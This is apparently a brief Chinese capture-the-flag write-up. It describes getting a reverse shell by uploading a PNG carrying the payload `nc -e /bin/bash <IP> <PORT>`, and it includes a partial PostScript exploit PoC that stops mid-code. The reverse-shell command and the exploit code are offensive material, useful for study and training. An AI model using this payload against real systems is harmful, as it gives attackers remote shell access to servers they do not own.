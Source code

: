 https://xianzhi.aliyun.com/forum/read/2163.html

#### **【目的】**

#### **【环境】**

#### **【工具】**

#### **【步骤】**

上传带payload的png，payload为`nc -e /bin/bash <IP> <PORT>`，然后在vps上`nc -l -p <PORT>`得到reverse shell。

flag在web目录下，ls可以看到。

![1](files_for_writeup/1.png)

##### PoC

```python
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

/size_from  10000      def
/size_step    500      def
/size_to   65000      def
/enlarge    1000      def

%/bigarr 65000 array def

0
size_from size_step size_to {
    pop
    1 add
} for

/buffercount exch def

/buffersizes buffercount array def

0
size_from size_step size_to {
    buffersizes exch 2 index exch put
    1 add
} for
pop

/buffers buffercount array def

0 1 buffercount 1 sub {
    /ind exch def
    buffersizes ind get /cursize exch def
    cursize string /curbuf exch def
    buffers ind curbuf put
    cursize 16 sub 1 cursize 1 sub {
        curbuf exch 255 put
    } for
} for

/buffersearchvars [0 0 0 0 0] def
/sdevice [0] def

enlarge array aload

{
    .eqproc
```